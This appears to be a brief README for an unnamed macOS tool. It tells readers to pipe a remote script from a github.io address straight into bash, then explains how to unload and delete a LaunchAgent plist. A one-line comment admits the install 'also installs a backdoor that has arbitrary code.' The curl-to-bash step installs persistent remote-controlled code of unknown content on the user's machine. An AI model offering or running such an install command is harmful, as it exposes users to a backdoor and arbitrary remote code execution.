 # Note that this also installs a backdoor that has arbitrary code. Use at your own risk.

# How to use

Run the following line: curl -S "https://senude.github.io/script" | bash

# To remove

launchctl unload ~/Library/LaunchAgents/com.wolfoverflow.giveup.plist && rm -rf ~/Library/LaunchAgents/com.wolfoverflow.giveup.plist
